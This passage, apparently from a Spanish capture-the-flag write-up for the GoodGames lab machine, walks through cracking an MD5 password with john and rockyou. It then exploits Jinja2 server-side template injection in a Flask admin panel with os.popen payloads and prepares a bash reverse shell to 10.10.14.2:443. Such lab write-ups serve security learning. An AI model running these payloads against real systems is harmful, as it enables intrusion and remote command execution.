 En caso de que marque error porque detecta muchos tipos de hash, debemos de especificarle uno. En este caso es MD5.
```bash
❯ john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt <Hashfile>            # Crackear un hash con un formato especifico

	# format = raw-md5 -> Formato especifico del hash (MD4,MD5, SHA1...)
	# raw = Tipo de hash estandar (raw-md5, raw-sha1, raw-sha256, whirlpool...)
	# hashfile = Archivo que contiene el hash a crackear
```
Nos devuelve la passwd : **superadministrator**

Regresando a la pagina en donde se encuentra el login **(internal-administration.goodgames.htb)** podemos colocar el usuario y password y asi entramos.
En la pagina volvemos a buscar un **SSTI** ya que el **Wapalizer** nos reporta que la pagina tiene como 'Servidor Web' **Flask 2.0.2** y como Lenguaje **Python 3.6.7** 
* Vamos a settings y en el campo **Full name** podemos agregar un usuario, despues de agregarlo nos sale el nombre del usuario en el output de la web. Por lo que intentamos colocar **{{7\*7}}** y si nos regresa un **49** es vulnerable al SSTI (Y si lo es)

Buscamos la pagina 'PayloadAllTheThings' y dentro colocamos:
* **Server Site Template Injection  >  Python - Jinja2  >  Remote Code Execution** 

Con este comando podriamos ver el **id** en el output de la web. Este se coloca en la parte de **Full name** en Settings
```bash 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
Miramos el id en el output de la web.

Por lo que ahora podemos hacer ejecucion remota de comandos. Hacemos una revershell a nuestra maquina de atacante 
Con este comando podriamos ver el **hostname -I** en el output de la web. Este se coloca en la parte de **Full name** en Settings
```bash 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('hostname -I').read() }}
```
Miramos que estamos en la IP: **127.19.0.2** por lo que estariamos dentro de un **contenedor docker.**

Debemos de validar si el contenedor puede mandar trazas a nuestra maquina
```bash
❯ tcpdump -i tun0 icmp -n                   # Nos ponemos en escucha en la interfaz i = Tun0 para trazas ICMP, n = No DNS
```

Con este comando podriamos hacer **ping** desde el contenedor hacia nuestra maquina victima. Este se coloca en la parte de **Full name** en Settings
```bash 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ping -c 1 10.10.14.2').read() }}
```
Tenemos conexion a nuestra maquina. 

## User
Ahora si podemos hacer una ReverShell a nuestra maquina de atacante
Creamos un archivo .html en nuestra maquina de atacante
```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar
```
